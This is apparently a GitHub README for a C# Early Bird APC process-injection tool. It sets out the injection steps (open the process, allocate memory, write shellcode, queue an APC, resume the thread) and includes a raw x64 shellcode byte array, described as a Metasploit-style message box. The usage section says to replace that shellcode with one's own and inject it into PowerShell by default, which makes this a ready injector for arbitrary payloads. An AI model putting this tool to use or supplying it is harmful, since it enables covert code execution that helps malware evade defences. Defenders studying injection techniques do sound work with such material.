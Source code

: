 # EarlyBirdInjection_CSharp

Blog link: working on it

- EarlyBirdInjection, process injection technique.
- Only tested on win10/x64, works fine.
- Some simplified context around threads and APC queues:
	1. Threads execute code within processes
	2. Threads can execute code asynchronously by leveraging APC queues
	3. Each thread has a queue that stores all the APCs
	4. Application can queue an APC to a given thread (subject to privileges)
	5. **When a thread is scheduled, queued APCs get executed.**
	6. Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an alertable state (i.e SleepEx), but you may want to check out Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert
	
- Steps
	1. Find process id.
	2. Openprocess 
	3. Allocate memory into process memory space.
	4. Write shellcode into the process memory space.
	5. Create thread with suspended state.
	6. Queue an APC to the threads.
	7. ResumeThread.
	
- The shellcode below is a messagebox
```
            /*   Messagebox shellcode   */
            byte[] buf1 = new byte[323] {
            0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
            0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
            0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
            0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
            0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
            0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
            0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
            0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
            0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
            0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
            0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
            0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
            0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
            0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
            0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
            0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
            0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
            0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
            0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
            0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
			
```

## Usage 
1. Replace the shellcode with your own.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_shellcode.png)
2. Set the process name you want to inject
	* default name in the project is Powershell.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_processname.png)
3. And the messagebox show up.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_messagebox.png)
	
	
## TO-DO list
- NONE

## Update history
- NONE

## Reference link:
	1. http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtQueueApcThread.html
	2. https://idiotc4t.com/code-and-dll-process-injection/apc-and-nttestalert-code-execute
	3. https://idiotc4t.com/code-and-dll-process-injection/apc-injection
	4. https://idiotc4t.com/code-and-dll-process-injection/apc-thread-hijack
	5. https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert
	6. https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection
	7. https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
	8. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
	9. http://pinvoke.net/default.aspx/kernel32/CreateRemoteThread.html
	10. https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
	11. https://malcomvetter.medium.com/net-process-injection-1a1af00359bc
	12. https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/apc-injection-new-process.cs
	13. https://introspelliam.github.io/2017/06/22/tools/关于metasploit的EXITFUNC参数的解释/
	14. http://garage4hackers.com/showthread.php?t=1820
